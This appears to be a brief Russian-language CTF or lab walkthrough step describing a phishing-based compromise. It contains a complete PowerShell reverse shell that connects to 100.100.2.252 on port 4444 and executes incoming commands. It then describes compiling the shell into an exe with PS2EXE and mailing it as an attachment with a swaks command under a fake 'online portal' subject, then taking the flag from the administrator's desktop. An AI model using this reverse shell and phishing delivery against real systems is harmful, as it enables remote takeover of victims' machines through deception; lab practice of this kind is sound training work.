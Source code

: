 берем созданную нагрузку в прошлом задаче и с помощи утилиты https://github.com/MScholtes/PS2EXE создаем exe файл
```
$client = New-Object System.Net.Sockets.TCPClient("100.100.2.252",4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i);
    $sb = (iex $data 2>&1 | Out-String );
    $stream.Write([text.encoding]::ASCII.GetBytes($sb),0,$sb.Length);
}
```
запускаем слушателя и отправляем созданный файл на почту  swaks --h-From: "Site" --from "kali@kali.com" --to james@knight.com -tlso --header "Subject: Онлайн портал  " --body "Здравствуйте" --attach @shelllnk.exe -s 10.10.0.28:587
забираем флаг с рабочего стола администратора
